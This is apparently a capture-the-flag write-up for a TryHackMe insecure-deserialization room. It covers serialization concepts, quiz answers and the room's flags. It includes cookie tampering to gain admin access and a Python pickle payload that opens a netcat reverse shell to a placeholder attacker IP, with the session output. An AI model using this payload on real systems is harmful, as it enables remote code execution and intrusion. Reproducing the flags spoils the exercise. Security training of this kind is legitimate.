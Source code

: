 # Insecure Deserialization

**Date:** 02, January, 2021

**Author:** Dhilip Sanjay S

---

## Serialization and Deserialization
- **Serialization** is the process of converting objects used in programming into simpler, compatible formatting for transmitting between systems or networks.
- **Deserialization** is the process of converting serialized information into their complex form - an object that the application will be able to understand.

## Insecure Deserialization
- Insecure Deserialization is a vulnerability which occurs when untrusted data is used to abuse the logic of an application
- It involves sreplacing data processed by an application with malicious code - allowing DoS to RCE.

- Low exploitability - attacker needs to have a good understanding of the inner-workings of the application.
- The exploit is only as dangerous as the attacker's skill permits.

## What's vulnerable?
- Any application that stores or fetches data where there are no validations or integrity checks in place for the data queried or retained. 
- Few examples of applications:
    - E-commerce Sites 
    - Forums
    - API's
    - Application Runtimes (Tomcat, Jenkins, Jboss, etc)

---
## Insecure Deserialization - Objects
- In OOP, objects are made up of two things:
    - State
    - Behaviour

---
## Insecure Deserialization - cookies
- Cookies are tiny peices of data - created and stored by website on the user's computer.
- Cookies store login information like sessionId.
- Attributes of cookies:

|Attribute | Description | Required?|
|----------|-------------|----------|
| Cookie Name | Name of the cookie | Yes |
| Cookie Value | Anything Plaintext or encoded | Yes |
| Secure Only | If set, this cookie will only be set over HTTPS connection | No |
| Expire | Set a timestamp for cookie expiry | No |
| Path | Cookie will only be sent if the specified URL is within the request| No |

---

## Solutions
### Who developed the Tomcat application?
- **Answer:** The Apache Software Foundation
- Initially I thought, James Duncan Davidson. But they actually wanted the organization's name.

---

### What type of attack that crashes services can be performed with insecure deserialization?
- **Answer:** Denial of Service
---

### If a dog was sleeping, would this be:
- **Answer:** Behaviour
- **Note:**
    - Sleep - State
    - Sleeping - behaviour

---

### What is the name of the base-2 formatting that data is sent across a network as? 
- **Answer:** Binary

---

### If a cookie had the path of webapp.com/login , what would the URL that the user has to visit be?
- **Answer:** webapp.com/login 

---

### What is the acronym for the web technology that Secure cookies work over?
- **Answer:** HTTPS

---

### 1st flag (cookie value)
- **Answer:** THM{good_old_base64_huh}
- **Steps to Reproduce:** 
    ```bash
    echo <session-id> | base64 -d
    ```

---

### 2nd flag (admin dashboard)
- **Answer:** THM{heres_the_admin_flag} 
- **Steps to Reproduce:** Change the `userType` field value to `admin` in the cookie and reload the page.

---

### What is the value in flag.txt?
- **Answer:** 4a69a7ff9fd68
- **Steps to Reproduce:** 
    - Submit a feedback.
    - You'll have a cookie named `encodedPayload`.
    - Replace the value with the one you get from running `rce.py`.

    ```python
    import pickle
    import sys
    import base64

    command = 'rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | netcat YOUR_TRYHACKME_VPN_IP 1234 > /tmp/f'

    class rce(object):
        def __reduce__(self):
            import os
            return (os.system,(command,))

    print(base64.b64encode(pickle.dumps(rce())))
    ```

    - Listen using netcat: `nc -lvnp 1234`
    - Reload the page.
    - You will get a reverse shell:
    ```bash
    root@kali: nc -lvnp 1234
    listening on [any] 1234 ...
    connect to [YOUR_TRYHACKME_VPN_IP] from (UNKNOWN) [MACHINE_IP] 59092
    /bin/sh: 0: cant access tty; job control turned off
    $ ls
    app.py
    Dockerfile
    index.html
    launch.sh
    __pycache__
    requirements.txt
    static
    templates
    user.html
    venv
    vimexchange.sock
    wsgi.py

    $ pwd         
    /home/cmnatic/app

    $ find / -type f -name flag.txt 2>/dev/null
    /home/cmnatic/flag.txt

    $ cd ..
    $ cat flag.txt
    4a69a7ff9fd68
    ```
---